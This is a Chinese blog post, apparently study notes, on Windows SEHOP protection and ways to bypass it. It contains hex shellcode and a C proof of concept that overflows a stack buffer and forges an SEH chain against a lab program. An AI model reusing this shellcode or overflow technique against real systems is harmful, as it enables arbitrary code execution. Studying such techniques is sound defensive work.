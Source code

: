 ```yaml
---
title: 漏洞学习笔记-020-SEHOP简介
description: SEHOP的介绍和一点简单攻击
slug: exploit-020
date: 2020-11-28 15:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-020/)

## 简介

SEHOP的核心任务就是检查S.E.H链的完整性，在程序转入异常处理前SEHOP会检查S.E.H链上最后一个异常处理函数是否为系统固定的终极异常处理函数。如果是，则说明这条S.E.H链没有被破坏，程序可以去执行当前的异常处理函数；如果检测到最后一个异常处理函数不是，则说明S.E.H链被破坏，可能发生了S.E.H覆盖攻击，程序将不会去执行当前的异常处理函数

> SEHOP验证伪代码

```cpp
if (process_flags & 0x40 == 0)  // 如果没有SEH记录则不进行检测
{
    if (record != 0xFFFFFFFF)  // 开始检测
    {
        do
        {
            if (record < stack_bottom || record > stack_top) // SEH 记录必须位于栈中
                goto corruption;
            if ((char *)record + sizeof(EXCEPTION_REGISTRATION) > stack_top) // SEH 记录结构需完全在栈中
                goto corruption;
            if ((record & 3) != 0) // SEH记录必须4字节对齐
                goto corruption;
            handler = record->handler;
            if (handler >= stack_bottom && handler < stack_top) // 异常处理函数地址不能位于栈中
                goto corruption;
            record = record->next;
        } while (record != 0xFFFFFFFF); // 遍历S.E.H链
    }
    if ((TEB->word_at_offset_0xFCA & 0x200) != 0)
    {
        if (handler != &FinalExceptionHandler) // 核心检测，地球人都知道，不解释了
        goto corruption;
    }
}
```

## 攻击思路

### 攻击返回地址

> 如果此函数启用了SEHOP但是没有启用GS或者函数刚好没有启用GS那么直接攻击返回地址即可

### 攻击虚函数

> SEHOP只保护SEH，但是虚函数表它并没有保护，攻击虚函数依旧可以成功

### 利用未启用SEHOP的模块

> 微软为一些加密壳禁用了SEHOP，例如穿山甲Armadilo

- 操作系统会根据PE头中`MajorLinkerVersion`和`MinorLinkerVersion`两个选项来判断是否为程序禁用SEHOP。例如，我们可以将这两个选项分别设置为`0x53`和`0x52`来模拟经过`Armadilo`加壳的程序，从而达到禁用SEHOP的目的
- Windows 7以及以后的系统中`PEB_LDR_DATA`指向的第二个模块被`KernelBase.dll`占据，所以shellcode应该修改一下

```c
Shellcode_for_windows7=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
```

### 伪造SEH链表

> 前提：ASLR不启用

- 思路
  - 通过未启用`SafeSEH`的`SEH_NOSafeSEH_JUMP.dll`来绕过`SafeSEH`
  - 通过伪造S.E.H链，造成S.E.H链未被破坏的假象来绕过`SEHOP`
  - `SEH_NOSafeSEH`中的test函数存在一个典型的溢出，即通过向str复制超长字符串造成str溢出，进而覆盖程序的S.E.H信息
  - 使用`SEH_NOSafeSEH_JUMP.DLL`中的`pop pop retn`指令地址覆盖异常处理函数地址，然后通过制造除0异常，将程序转入异常处理
  - 通过劫持异常处理流程，程序转入`SEH_NOSaeSEH_JUMP.DLL`中执行`pop pop retn`指令，在执行`retn`后程序转入`shellcode`执行

- 代码

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00" // address of last seh record
"\x12\x10\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90"
"\xFF\xFF\xFF\xFF" // the fake seh record
"\x75\xA8\xF7\x77"
;

DWORD MyException(void)
{
    printf("There is an exception");
    getchar();
    return 1;
}

void test(char * input)
{
    char str[200];
    memcpy(str, input, 412);
    int zero = 0;
    __try
    {
        zero = 1 / zero;
    }
    __except(MyException()){}
}

int main()
{
    HINSTANCE hInst = LoadLibrary(_T("SEH_NOSaeSEH_JUMP.dll")); // load No_SafeSEH module
    char str[200];
    test(shellcode);
    return 0;
}
```
